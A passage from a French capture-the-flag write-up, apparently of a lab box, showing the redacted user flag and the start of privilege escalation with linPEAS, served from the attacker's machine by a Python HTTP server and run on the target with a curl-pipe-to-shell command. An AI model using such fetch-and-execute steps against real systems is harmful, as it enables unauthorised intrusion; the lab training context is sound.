 * * *

# USER FLAG

```bash
namelessone@anonymous:~$ cat user.txt 
<***USER_FLAG***>
```

* * *

# Privilege Escalation

## linPeas

Nous allons utiliser le script [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

- téléchargez le script sur notre machine.
    
    ```bash
    $ wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
    ```
    
    ```bash
    $ ls                         
    linpeas.sh
    ```
    
- On note notre adresse IP
    
    ```bash
    $ ifconfig tun0              
    tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
            inet 10.18.48.143  netmask 255.255.128.0  destination 10.18.48.143
            inet6 fe80::5351:6ad5:1c3f:ab52  prefixlen 64  scopeid 0x20<link>
            unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 500  (UNSPEC)
            RX packets 99  bytes 8127 (7.9 KiB)
            RX errors 0  dropped 0  overruns 0  frame 0
            TX packets 130  bytes 7454 (7.2 KiB)
            TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
    
    ```
    
- On lance le serveur sur notre machine
    
    ```bash
    $ python3 -m http.server 4444
    Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
    ```
    
- On lance le script linPEAS
    
    ```bash
    namelessone@anonymous:~$ curl -L http://10.18.48.143:4444/linpeas.sh | sh
    ```
    